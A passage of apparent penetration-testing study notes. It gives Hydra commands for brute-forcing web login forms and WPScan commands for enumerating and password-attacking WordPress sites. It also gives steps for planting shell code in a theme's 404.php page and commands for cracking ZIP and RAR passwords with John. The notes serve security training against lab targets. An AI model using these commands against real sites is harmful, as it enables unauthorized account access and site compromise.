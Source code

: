 ```sh
```
If the user is not fixed
```sh
kali@kali:~$ hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=^USER^&pass=^PASS^:F=Unknown user" -L users.txt -p fake_pwd -vV -f
```
If we check for a redirection to an admin page
```sh
kali@kali:~$ hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=^USER^&pass=^PASS^:S=302" -l admin -P <wordlist> -vV -f
```
### HTTP POST Attack with WPScan
Wpscan is a vulnerability scanning tool which scans for vulnerabilities in websites that run WordPress web engines. 
```sh
kali@kali:~$ wpscan --url <https://recon_site.com>
```
For a thorough scan, we will need to provide the URL of the target (`--url`) and configure the enumerate option (`--enumerate`) to include "All Plugins" (`ap`), "All Themes" (`at`), "Config backups" (`cb`), and "Db exports" (`dbe`).
```sh
kali@kali:~$ wpscan --url sandbox.local --enumerate ap,at,cb,dbe
```
WordPress password dictionary attack
```sh
kali@kali:~$ wpscan --url <https://recon_site.com> --passwords rockyou.txt --usernames offsec,student –-max-threads 1
```
REF: https://www.wpwhitesecurity.com/strong-wordpress-passwords-wpscan/

#### Log In to WordPress
- When logged in to WordPress you can go to "Appearance" > "Editor" > "Choose a site page template to edit".
- In this case the default TwentyTwelve theme is in use, we can edit the "404.php"/"archive.php" page to include our shell code.
- Once the page has been updated successfully we can go to it in our browser (http://TheSiteURL/wp-content/themes/twentytwelve/404.php)

- Ref: [Plugin to Payload: A Simple Wordpress attack excercise](https://www.linkedin.com/pulse/plugin-payload-simple-wordpress-attack-excercise-barry-malone)
### Crack ZIP/RAR Password Using John
Get the password hashes to be cracked:
```sh
kali@kali:~$ ./zip2john flag.zip > zip.hashes
kali@kali:~$ ./rar2john flag.rar > rar.hashes
```
Crack them using John as usual:
```sh
kali@kali:~$ john --wordlist=mutated.txt zip.hashes
kali@kali:~$ john --wordlist=mutated.txt rar.hashes
```
## Leveraging Password Hashes
Identification of password hashes can be done using:
- the Openwall website
- the `hashid` tool

